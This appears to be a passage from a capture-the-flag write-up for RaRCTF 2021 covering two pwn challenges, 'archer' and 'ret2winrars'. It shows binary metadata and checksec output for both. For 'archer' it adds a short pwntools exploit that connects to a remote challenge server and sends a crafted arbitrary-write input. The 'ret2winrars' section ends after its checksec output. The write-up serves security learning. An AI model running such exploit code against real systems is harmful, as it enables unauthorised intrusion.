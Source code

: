 ### archer

```
// file 
./archer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=390b7c841eb868d7c0490e3ecd37eaaa2d2eeea6, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/home/u1f383/rarctf_2021/ancher/archer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



trivial，exploit:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

# r = process('./archer')
r = remote('193.57.159.27', 49723)
# gdb.attach(r, """
# b *0x4012b7
# """)

r.sendlineafter('Answer [yes/no]: ', 'yes')
target = 0x404068
r.sendlineafter('Now, which soldier do you wish to shoot?\n', 'fffffffffff04068')

r.interactive()
```



### ret2winrars

```
// file
ret2winrars: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=755fcf13089e8b46f2f2f5b4c35413c92debbc58, not stripped

// checksec
[*] '/home/u1f383/rarctf_2021/ret2winRaRs/ret2winrars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
